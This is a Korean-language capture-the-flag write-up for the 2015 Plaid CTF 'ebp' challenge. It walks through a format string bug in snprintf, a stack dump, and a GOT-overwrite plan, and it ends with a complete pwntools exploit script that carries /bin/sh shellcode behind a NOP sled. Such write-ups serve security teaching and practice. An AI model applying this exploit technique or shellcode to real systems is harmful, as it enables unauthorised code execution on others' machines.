 ```yaml
---
title: "2015 Plaid CTF EBP"
date: 2020-1-27
ctf: Plaid CTF
layout: post
published : false
---
```


32비트 바이너리고 Partial RELRO밖에 안 걸려있다.

```
[*] '/vagrant/ctfs/ebp'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

메인에서 전역변수 buf에 입력받는다. 근데 snprintf가 사용되는데 buf에 포맷스트링 있으면 포맷스트링 버그를 일으킬 수 있다. 일단 전역변수로 입력받으니까 Double Staged Format String Bug로 익스해야할거다.

```c
int echo()
{
  make_response();
  puts(response);
  return fflush(stdout);
}

int make_response()
{
  return snprintf(response, 1024u, buf);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax

  while ( 1 )
  {
    result = fgets(buf, 1024, stdin);
    if ( !result )
      break;
    echo();
  }
  return result;
}
```

snprintf 실행하기 전에 스택을 보면 이렇게 되어있다. 

```
pwndbg> x/50wx $esp
0xffffd350:	0x0804a480	0x00000400	0x0804a080	0xf7fd51b0
0xffffd360:	0xf7fe77eb	0x00000000	0xffffd388	0x0804852c
0xffffd370:	0xffffd3a8	0xf7fee010	0xf7e6915b	0x00000000
0xffffd380:	0xf7fbd000	0xf7fbd000	0xffffd3a8	0x08048557
0xffffd390:	0x0804a080	0x00000400	0xf7fbd5a0	0x00000000
0xffffd3a0:	0xf7fbd000	0xf7fbd000	0x00000000	0xf7e23637
0xffffd3b0:	0x00000001	0xffffd444	0xffffd44c	0x00000000
0xffffd3c0:	0x00000000	0x00000000	0xf7fbd000	0xf7ffdc04
0xffffd3d0:	0xf7ffd000	0x00000000	0xf7fbd000	0xf7fbd000
0xffffd3e0:	0x00000000	0xaf9aa8a5	0x945626b5	0x00000000
0xffffd3f0:	0x00000000	0x00000000	0x00000001	0x08048400
0xffffd400:	0x00000000	0xf7fee010	0xf7fe8880	0xf7ffd000
```

0x0804a480는 response의 주소 0x0804a080는 buf의 주소다. 

익스는 0xffffd368을 보면 0xffffd388를 가르키고 있는 포인터다. 일단 0xffffd368를 puts@got로 덮으면 0xffffd388이 덮일거다. 그리고 puts@got주소를 buf+100으로 덮고 nop sled뒤에 shellcode 넣으면 puts실행될 때 쉘코드가 실행될거다.

> exploit.py

```python
from pwn import *

e = ELF('./ebp')
p = process('./ebp')

#shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'
shellcode = '\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x6a\x0e\x58\x48\x48\x48\x99\xcd\x80'
fflush_got = 0x0804a00c
fgets_got = 0x0804a010
puts_got = 0x0804a014
snprintf_got = 0x0804a020
buf = 0x0804A080

#payload = '%{}c%n'.format('134520852')
payload = "%{}c%4$n".format(e.got['puts'])
p.sendline(payload)

payload2 = '%{}c%12$n'.format(buf+100)
payload2 += '\x90'*300
payload2 += shellcode
p.sendline(payload2)

p.interactive()
```

